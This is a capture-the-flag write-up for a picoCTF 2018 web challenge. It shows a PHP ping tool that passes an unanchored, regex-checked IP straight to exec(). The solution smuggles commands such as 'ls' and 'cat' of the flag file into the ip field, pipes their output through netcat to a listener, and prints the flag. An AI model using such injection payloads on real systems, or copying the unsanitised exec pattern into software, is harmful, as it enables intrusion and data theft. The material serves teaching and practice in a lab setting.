

# Problem
One of my school mate developed an alive monitoring tool. Can you get a flag from [http://2018shell1.picoctf.com:56517](http://2018shell1.picoctf.com:56517)?

## Hints:
This application uses the validation check both on the client side and on the server side, but the server check seems 
to be inappropriate.

You should be able to listen through the shell on the server.

## Solution:
Lets view the website:



```html
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

We can see that the IP check in the client side is done using JS ```[match](https://www.w3schools.com/jsref/jsref_match.asp)``` function. This functions returns only the matching part.

In the other hand, the server side check is done using PHP ```[preg_match](http://php.net/manual/en/function.preg-match.php)``` which just checks if there is a match and if so, the entire input string is being passed to ```[exec](http://php.net/manual/en/function.exec.php)```. If we pass/skip the client side check, we can inject code...

Lets use some [code injection](https://en.wikipedia.org/wiki/Code_injection):

* Listen on the server to some unused port:
* * ```bash
	nc -l 12345
	```
* Send malicious request to the website:
  * ```bash
    curl -d "ip=127.0.0.1;ls | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
    ```
* Look at the output:
  * ```
    index.php
	index.txt
	super-secret-1365-flag.txt
	xinet_startup.sh
	```
* Get the flag:
  * ```bash
  	curl -d "ip=127.0.0.1;cat super-secret-1365-flag.txt | nc localhost 12345" -X POST http://2018shell1.picoctf.com:56517/index.php
  	```
  * ```bash
    Here is your flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
    ```

Nice.

Flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}
